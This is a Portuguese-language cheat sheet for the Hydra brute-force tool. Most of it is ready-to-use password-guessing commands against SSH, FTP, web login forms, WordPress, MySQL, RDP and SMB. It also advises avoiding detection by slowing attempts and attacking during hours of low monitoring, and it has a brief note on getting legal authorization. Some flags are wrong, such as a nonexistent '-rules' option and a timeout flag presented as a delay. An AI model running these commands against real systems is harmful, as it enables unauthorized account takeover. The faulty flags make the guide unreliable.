 # Hydra - Guia de Comandos e Técnicas

## Introdução ao Hydra

O **Hydra** é uma ferramenta de brute-force de rede que suporta múltiplos protocolos e serviços. É amplamente utilizado em testes de penetração para verificar a força de senhas.

## Sintaxe Básica

```bash
hydra -l <usuário> -p <senha> <protocolo://servidor:porta> <opções>
hydra -L <lista_usuários> -P <lista_senhas> <alvo> <opções>
```

## Opções Principais

### Opções de Autenticação
| Opção | Descrição |
|-------|-----------|
| `-l` | Usuário único |
| `-L` | Arquivo com lista de usuários |
| `-p` | Senha única |
| `-P` | Arquivo com lista de senhas |
| `-e` | Opções especiais: `n` (null), `s` (login como senha), `r` (senha como login) |
| `-u` | Tentar usuário primeiro (padrão: senha primeiro) |
| `-f` | Parar após encontrar primeira credencial válida |

### Opções de Conexão
| Opção | Descrição |
|-------|-----------|
| `-s` | Porta personalizada |
| `-S` | Usar conexão SSL |
| `-t` | Número de tarefas paralelas (padrão: 16) |
| `-w` | Timeout em segundos (padrão: 32) |
| `-4` | Usar apenas IPv4 |
| `-6` | Usar apenas IPv6 |

### Opções de Saída
| Opção | Descrição |
|-------|-----------|
| `-o` | Arquivo de saída |
| `-b` | Formato de saída: `text`, `json`, `jsonv1` |
| `-v` | Modo verboso |
| `-V` | Modo verboso detalhado |

## Exemplos por Protocolo

### SSH
```bash
# Ataque básico
hydra -l admin -P passwords.txt ssh://192.168.1.1

# Com lista de usuários
hydra -L users.txt -P passwords.txt ssh://192.168.1.1

# Porta personalizada
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -s 2222

# Limitar tarefas paralelas
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -t 4
```

### FTP
```bash
# Ataque FTP básico
hydra -L users.txt -P passwords.txt ftp://192.168.1.1

# FTP com SSL
hydra -L users.txt -P passwords.txt ftps://192.168.1.1

# Modo verboso
hydra -v -L users.txt -P passwords.txt ftp://192.168.1.1
```

### HTTP/HTTPS
```bash
# Formulário POST básico
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=incorrect"

# Com cabeçalhos personalizados
hydra -l admin -P passwords.txt 192.168.1.1 http-post-form "/login.php:user=^USER^&pass=^PASS^:F=error" -H "User-Agent: Mozilla/5.0"

# HTTPS
hydra -l admin -P passwords.txt 192.168.1.1 https-post-form "/login:username=^USER^&password=^PASS^:Invalid"
```

### WordPress
```bash
# Ataque específico para WordPress
hydra -L users.txt -P passwords.txt 192.168.1.1 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:ERROR"
```

### MySQL
```bash
# Ataque ao MySQL
hydra -L users.txt -P passwords.txt mysql://192.168.1.1

# Porta personalizada
hydra -L users.txt -P passwords.txt mysql://192.168.1.1:3307
```

### RDP (Remote Desktop)
```bash
# Ataque RDP
hydra -L users.txt -P passwords.txt rdp://192.168.1.1

# Com domínio
hydra -L users.txt -P passwords.txt rdp://192.168.1.1 -m "DOMAIN=meudominio"
```

### SMB
```bash
# Ataque SMB
hydra -L users.txt -P passwords.txt smb://192.168.1.1

# Com grupo de trabalho
hydra -L users.txt -P passwords.txt smb://192.168.1.1 -m "WORKGROUP=WORKGROUP"
```

## Técnicas Avançadas

### Ataques com Regras
```bash
# Usando regras do John the Ripper para gerar senhas
hydra -l admin -P /usr/share/john/password.lst -rules ssh://192.168.1.1
```

### Ataque com Serviços Múltiplos
```bash
# Testar múltiplos serviços
hydra -L users.txt -P passwords.txt -M services.txt
```

Onde `services.txt` contém:
```
ssh://192.168.1.1
ftp://192.168.1.1
http://192.168.1.1
```

### Modo de Restauração
```bash
# Continuar sessão interrompida
hydra -R hydra.restore
```

### Ataque com Delay
```bash
# Adicionar delay entre tentativas
hydra -L users.txt -P passwords.txt ssh://192.168.1.1 -w 10 -t 1
```

## Boas Práticas

### 1. Performance
- Ajuste `-t` conforme a capacidade do servidor alvo
- Use `-w` para evitar timeouts em redes lentas
- Teste com poucas credenciais primeiro

### 2. Evitar Detecção
- Use delays entre tentativas (`-W`)
- Limite o número de threads (`-t`)
- Considere horários de menor monitoramento

### 3. Listas Eficientes
- Comece com listas de senhas comuns
- Use informações de OSINT para criar listas personalizadas
- Combine com regras de mutação

### 4. Monitoramento
- Use modo verboso para debug (`-v` ou `-V`)
- Salve resultados com `-o`
- Use formato JSON para processamento posterior

### 5. Considerações Legais
- Use apenas em sistemas que você possui
- Obtenha autorização por escrito
- Documente todo o processo

## Exemplo de Uso Completo

```bash
# Ataque completo com todas as opções
hydra -L users.txt -P passwords.txt \
  -e nsr \
  -t 4 \
  -w 10 \
  -f \
  -o results.txt \
  -b json \
  -v \
  ssh://192.168.1.1:22
```

Este comando:
- Usa listas de usuários e senhas
- Testa senhas nulas, iguais ao usuário e reversas
- Limita a 4 tarefas paralelas
- Timeout de 10 segundos
- Para na primeira credencial válida
- Salva em JSON
- Modo verboso